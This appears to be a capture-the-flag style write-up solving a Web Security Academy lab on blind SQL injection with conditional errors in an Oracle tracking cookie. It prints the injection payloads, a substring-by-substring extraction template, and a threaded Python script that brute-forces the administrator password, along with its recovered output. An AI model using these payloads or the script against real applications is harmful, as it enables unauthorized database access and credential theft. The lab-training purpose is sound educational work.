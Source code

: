 # Lab: Blind SQL injection with conditional errors
## Task
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Solution
With a little bit testing, we know that the database is Oracle.
```
TrackingId=rNDIHSBcCc2g31gX'+AND+(SELECT+1+FROM+dual)=1--
```  

When testing the payload, I found this one worked:  
```
'+AND+(SELECT+CASE+WHEN+(1=2)+THEN+1/0+ELSE+2+END+FROM+dual)=2--
```  

Now, let's use this to figure out the `administrator`'s password:  
```
'+AND+(SELECT+CASE+WHEN+(1=2)+THEN+1/0+ELSE+2+END+FROM+dual)=2--
```  

Firstly, find the password's length:  

![image](https://user-images.githubusercontent.com/44528004/130166734-9a456be5-66d2-4048-b97e-b45da09ce5b8.png)  
> As an error occured, the length is 20.  

Next, find each letter of the password with the following payload template:  
```
'+AND+(SELECT+CASE+WHEN+(SUBSTR((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='a')+THEN+1/0+ELSE+2+END+FROM+dual)=2--
'+AND+(SELECT+CASE+WHEN+(SUBSTR((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='b')+THEN+1/0+ELSE+2+END+FROM+dual)=2--
...
'+AND+(SELECT+CASE+WHEN+(SUBSTR((SELECT+password+FROM+users+WHERE+username='administrator'),2,1)='a')+THEN+1/0+ELSE+2+END+FROM+dual)=2--
'+AND+(SELECT+CASE+WHEN+(SUBSTR((SELECT+password+FROM+users+WHERE+username='administrator'),2,1)='b')+THEN+1/0+ELSE+2+END+FROM+dual)=2--
...
```

Script:  
```python
import requests
import string
from concurrent import futures
from concurrent.futures import ThreadPoolExecutor

URL = 'https://acf91f801fe3b0a7802cff6400700018.web-security-academy.net/filter?category=Gifts'
alphas = list(string.ascii_lowercase)
alphas.extend(list(string.ascii_uppercase))
alphas.extend(list(string.digits))

def brute(i):
    for j in alphas:
        COOKIES =  {'TrackingId':f"rNDIHSBcCc2g31gX'+AND+(SELECT+CASE+WHEN+(SUBSTR((SELECT+password+FROM+users+WHERE+username='administrator'),{i},1)='{j}')+THEN+1/0+ELSE+2+END+FROM+dual)=2--",
        'session':'zborbpfMUYHP1DUkgOtF1WID4ymPSr9G'}
        resp = requests.get(URL, cookies=COOKIES)
        if resp.status_code == 500:
            return (i, j)

res = []
with ThreadPoolExecutor(max_workers=10) as executor:
    tasks = []
    for i in range(1, 21):
        tasks.append(executor.submit(brute, i))
    for f in futures.as_completed(tasks):
        res.append(f.result())

res = sorted(res, key=lambda x: x[0])
print(len(res))
print(''.join([x[1] for x in res]))
```

Run script:
```
(env) PS E:\CTF> py .\intruder.py
20
8clzfepzojeclf6dg4jr
```

Login:  

![image](https://user-images.githubusercontent.com/44528004/130168000-48f4fc3b-0c81-4e93-b09a-662d0b06100b.png)


![image](https://user-images.githubusercontent.com/44528004/130168008-5041934d-df63-4bcd-a092-c09d464da290.png)
> Solved!
